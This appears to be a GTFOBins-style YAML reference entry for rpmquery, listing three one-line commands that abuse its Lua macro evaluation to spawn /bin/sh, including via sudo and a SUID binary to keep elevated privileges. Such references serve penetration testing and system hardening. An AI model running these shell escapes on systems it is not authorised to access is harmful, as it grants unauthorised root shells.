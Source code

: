```yaml
---
functions:
  exec-interactive:
    - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  sudo-enabled:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
    - code: ./rpmquery --eval '%{lua:posix.exec("/bin/sh", "-p")}'
---
```


